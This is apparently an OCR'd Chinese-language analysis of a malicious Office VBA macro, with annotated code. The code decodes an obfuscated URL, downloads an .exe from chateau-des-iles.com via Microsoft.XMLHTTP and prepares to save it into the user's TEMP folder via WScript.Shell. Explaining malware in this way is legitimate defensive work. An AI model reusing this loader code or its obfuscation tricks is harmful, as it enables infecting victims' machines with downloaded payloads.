 ```
    a = 84 / 0
  On Error GoTo 0
  
' 退出函数
xrIvr6mOXvFG:
  Exit Sub
' 进入
OhXhZLRKh:
  ' 执行命令函数
  ENMD3t8EY4A ("UfBPGay4VPJi")
Resume xrIvr6mOXvFG
End Sub

```

完整函数代码：

```
'病毒主函数
Sub LWS8UPvw1QGKq()

' 加密字符串 ht=tp:/;/chateau-d<es-iles.=com/<4tf32018/4/3 11:40:07 : WScript.Shell
Nrh1INh1S5hGed = "h" & Chr(116) & Chr(61) & "t" & Chr(112) & Chr(58) & Chr(47) & Chr(59) & Chr(47) & Chr(99) & Chr(104) & Chr(97) & "t" & Chr(101) & Chr(97) & Chr(117) & Chr(45) & Chr(100) & Chr(60) & Chr(101) & Chr(115) & Chr(45) & Chr(105) & Chr(108) & "e" & Chr(115) & Chr(46) & Chr(61) & Chr(99) & Chr(111) & Chr(109) & Chr(47) & Chr(60) & Chr(52) & Chr(116) & Chr(102) & Chr(51) & Chr(51) & Chr(119) & Chr(47) & Chr(60) & Chr(119) & "4" & Chr(116) & Chr(52) & Chr(53) & Chr(51) & Chr(46) & Chr(59) & Chr(101) & Chr(61) & Chr(120) & Chr(101)

Debug.Print Now & " : " & Nrh1INh1S5hGed

' 进入解密函数，创建了对象 Microsoft.XMLHTTP
Set LhZitls7wPn = lLJrFk6pKsSYJ("M" & "i" & Chr(60) & Chr(99) & Chr(114) & Chr(111) & Chr(61) & "s" & Chr(111) & "f" & Chr(116) & ";" & Chr(46) & "X" & Chr(77) & Chr(60) & "L" & Chr(59) & Chr(72) & "T" & Chr(61) & Chr(84) & "P")

' 解密字符串http://chateau-des-iles.com/4tf33w/w4t453.exe

Nrh1INh1S5hGed = Replace(Replace(Replace(Nrh1INh1S5hGed, Chr(60), ""), Chr(61), ""), Chr(59), "")

'  通过对象下载文件
'  LhZitls7wPn = Microsoft.XMLHTTP
'  LhZitls7wPn.Open GET "http://chateau-des-iles.com/4tf33w/w4t453.exe"
CallByName LhZitls7wPn, Chr(79) & Chr(112) & Chr(101) & Chr(110), VbMethod, Chr(71) & Chr(69) & Chr(84), _
Nrh1INh1S5hGed _
, False


' vu2Wh85645xcP0 = 创建WScript.Shell对象实例
Set vu2Wh85645xcP0 = lLJrFk6pKsSYJ(Chr(87) & "<" & Chr(83) & "c" & Chr(61) & Chr(114) & "i" & Chr(112) & "t" & Chr(59) & Chr(46) & Chr(83) & "=" & Chr(104) & "e" & "<" & "l" & Chr(108))

'  WScript.Shell "Environment" Process
Set GhbwRqU9OkbF = CallByName(vu2Wh85645xcP0, Chr(69) & Chr(110) & "v" & Chr(105) & Chr(114) & Chr(111) & "n" & "m" & Chr(101) & Chr(110) & Chr(116), VbGet, Chr(80) & "r" & "o" & Chr(99) & "e" & Chr(115) & "s")

' "C:\Users\USER\AppData\Local\Temp"
SD3q5HdXxoiA = GhbwRqU9OkbF(Chr(84) & Chr(69) & Chr(77) & Chr(80))

' "C:\Users\USER\AppData\Local\Temp\fghgkbb.exe"
aDPbd2byZb = SD3q5HdXxoiA & "\" & Chr(102) & Chr(103) & Chr(104) & Chr(103) & Chr(107) & Chr(98) & Chr(98) & Chr(46) & "e" & "x" & Chr(101)
```